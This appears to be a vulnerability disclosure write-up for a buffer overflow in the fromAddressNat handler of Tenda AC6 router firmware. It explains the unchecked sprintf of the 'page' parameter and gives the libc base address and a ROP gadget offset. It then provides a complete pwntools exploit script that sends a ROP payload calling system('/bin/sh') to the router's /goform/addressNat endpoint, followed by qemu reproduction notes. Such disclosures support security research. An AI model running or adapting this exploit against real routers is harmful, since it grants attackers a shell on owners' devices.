 # fromAddressNat vulnerability

## Intro

Tenda AC6 V1.0BR_V15.03.05.19_multi_TD01 firmware has a buffer overflow vulnerability in the fromAddressNat function. The sprintf(v6, "advance/addressNatList.asp?page=%s", v7); function copies the contents of the parameter **"page"** to v6 without performing a length check. Therefore we can send a very long string to overwrite the return address to execute certain code we want.

![img](./assets/1.png)

## Exp

By analysing the libc in firmware and adding breakpoint in memset function, we can get the base address of libc：0x3fdd8f70-0x3df70=0x3fd9b000

![](./assets/2.png)

![](./assets/3.png)

Then let's set the rop chain. It's so lucky that there's a perfect gadget "pop {r0, pc}" that can pass parameter and set pc at the same time. So we can use this gadget to execute "system("/bin/sh")" easily. The offset of this gadget in libc is 0x0003db80（take US_AC6V1.0BR_V15.03.05.19_multi_TD01 as example）.

```python
from pwn import *
import requests

libc = ELF('./lib/libc.so.0')

libc_start = 0x3fd9b000
system_addr = libc_start + libc.symbols['system']
binsh_addr = libc_start + next(libc.search(b'/bin/sh'))

# 0x0003db80 : pop {r0, pc}

pop_r0_pc = libc_start + 0x0003db80

print(f"system: {hex(system_addr)}")
print(f"binsh: {hex(binsh_addr)}")
print(f"pop r0: {hex(pop_r0_pc)}")

def send_payload(url, payload):
    print("sending...")
    response = requests.get(url, params={'page': payload})
    print(f"Response status code: {response.status_code}\nResponse body: {response.text}")

payload = b'A' * 0xf0 + b'abcdefgh' + p32(pop_r0_pc) + p32(binsh_addr) + p32(system_addr)
send_payload("http://10.10.10.1/goform/addressNat", payload)

```

## Reproduction

If you are using qemu to run the binary file, to make it run correctly, there's several places to patch.

The instructions patched to **'b'(the jump instruction)** can be listed as follows:  

![](./assets/4.png)

![](./assets/5.png)

The instructions patched to **'nop'** can be listed as follows:  

![](./assets/6.png)

Then after running the exp twice we can get shell successfully.

![](./assets/7.png)